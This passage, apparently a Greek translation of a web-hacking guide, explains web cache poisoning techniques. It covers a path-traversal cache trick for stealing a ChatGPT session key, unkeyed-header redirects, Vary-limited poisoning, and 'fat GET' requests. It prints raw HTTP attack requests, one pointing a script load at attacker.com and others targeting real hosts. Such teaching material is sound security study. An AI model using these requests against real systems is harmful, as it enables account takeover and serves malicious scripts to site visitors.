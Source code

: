 ### Δηλητηρίαση cache με διάβαση διαδρομής για να κλέψετε το κλειδί API <a href="#using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities" id="using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities"></a>

[**Αυτή η ανάλυση εξηγεί**](https://nokline.github.io/bugbounty/2024/02/04/ChatGPT-ATO.html) πώς ήταν δυνατόν να κλαπεί ένα κλειδί API της OpenAI με ένα URL όπως `https://chat.openai.com/share/%2F..%2Fapi/auth/session?cachebuster=123` επειδή οτιδήποτε ταιριάζει με `/share/*` θα αποθηκεύεται στην cache χωρίς η Cloudflare να κανονικοποιεί το URL, το οποίο έγινε όταν το αίτημα έφτασε στον web server.

### Χρήση πολλαπλών κεφαλίδων για την εκμετάλλευση ευπάθειών δηλητηρίασης cache στο web <a href="#using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities" id="using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities"></a>

Μερικές φορές θα χρειαστεί να **εκμεταλλευτείτε αρκετές μη-κλειδωμένες εισόδους** για να μπορέσετε να καταχραστείτε μια cache. Για παράδειγμα, μπορείτε να βρείτε ένα **Ανοικτό ανακατευθύνση** αν ορίσετε το `X-Forwarded-Host` σε έναν τομέα που ελέγχετε εσείς και το `X-Forwarded-Scheme` σε `http`. **Αν** ο **διακομιστής** ανακατεύει όλα τα **HTTP** αιτήματα **σε HTTPS** και χρησιμοποιεί την κεφαλίδα `X-Forwarded-Scheme` ως το όνομα τομέα για την ανακατεύθυνση, μπορείτε να ελέγξετε προς πού θα οδηγηθεί η σελίδα με την ανακατεύθυνση.
```markup
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
```
### Εκμετάλλευση με περιορισμένο `Vary` header

Αν ανακαλύψετε ότι το **`X-Host`** header χρησιμοποιείται ως **όνομα domain για τη φόρτωση ενός πόρου JS** αλλά το **`Vary`** header στην απόκριση υποδεικνύει **`User-Agent`**. Τότε, πρέπει να βρείτε έναν τρόπο να εξαγάγετε το User-Agent του θύματος και να δηλητηριάσετε τη μνήμη cache χρησιμοποιώντας αυτό το user agent:
```markup
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```
### Παχύ Get

Στείλτε ένα αίτημα GET με το αίτημα τόσο στο URL όσο και στο σώμα. Εάν ο διακομιστής web χρησιμοποιεί αυτό από το σώμα αλλά ο διακομιστής cache κρατάει αυτό από το URL, οποιοσδήποτε προσπελαύνει αυτό το URL θα χρησιμοποιήσει πραγματικά την παράμετρο από το σώμα. Όπως η ευπάθεια που ανέκρινε ο James Kettle στην ιστοσελίδα του Github:
```
GET /contact/report-abuse?report=albinowax HTTP/1.1
Host: github.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

report=innocent-victim
```
### Απόκρυψη Παραμέτρων
